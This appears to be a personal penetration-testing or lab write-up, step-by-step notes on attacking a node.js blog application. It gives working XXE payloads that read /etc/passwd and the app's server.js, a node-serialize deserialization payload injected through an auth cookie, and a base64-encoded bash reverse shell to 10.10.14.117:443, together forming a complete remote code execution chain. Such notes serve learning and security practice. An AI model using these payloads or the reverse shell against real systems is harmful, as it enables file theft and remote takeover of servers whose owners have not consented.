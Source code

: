 #### Quick file upload win
```XML - kali
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```
### Burp to XXE
Operators Handbook pg 322
After logging in, go to file upload.
Create a test.txt with random characters.
echo "fdafasfsdf" > test.txt
Upload with Burp on.
Look in Burp for POST /articles/xml
Make a test.xml file with the template provided from Burp request:
test.xml
```xml - kali
<post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>
```
Upload the new test.xml file.
![[Pasted image 20220218093158.png]]
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#detect-the-vulnerability
Take the header lines from PayloadsAllTheThings
```xml - xxe
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
```
Combine it with our xml code, update the description with "&example;":
```xml - xxe
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
<post><title>Example Post</title><description>&example;</description><markdown>Example Markdown</markdown></post>
```
Verify we see "Doe" in the description field.
![[Pasted image 20220218093947.png]]
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe
Pay attention to the !ENTITY value "test", and replace accordingly with the description field.
```xml - xxe
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<post><title>Example Post</title><description>&test;</description><markdown>Example Markdown</markdown></post>
```
![[Pasted image 20220218095220.png]]
Great, now for node.js system, we need to find one of the following files:
/opt/blog/app.js
/opt/blog/server.js
/opt/blog/main.js
Replace the payload until one works.
Take the source code of server.js, make a new folder "src", with a server.js document inside, pasting the source.js code.
Look at line 6, requirement of node-serialize.
>const serialize = require('node-serialize')
Google "node-serialize exploit"
https://snyk.io/test/npm/node-serialize
```
'{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
```
While logged in, capture a request to "/" in Burp.
![[Pasted image 20220218101257.png]]
Decode the Cookie: value by highlighting it and pressing CTRL+Shift+U
Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8"}
EXAMPLE ls command:
```
Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8","rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"ls /\", function(error, stdout, stderr) { console.log(stdout) });}()"}
```
```bash - kali
echo "bash  -i >& /dev/tcp/10.10.14.117/443  0>&1" | base64
```
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0MyAgMD4mMQo=
```bash - kali
echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0MyAgMD4mMQo= | base64 -d | bash
```
Final should look like:
```
Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8","rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0MyAgMD4mMQo= | base64 -d | bash\", function(error, stdout, stderr) { console.log(stdout) });}()"}
```
Highlight and convert selection to URL encoded:
Convert selection > URL > URL encode ALL characters
Request should look like:
![[Pasted image 20220218103639.png]]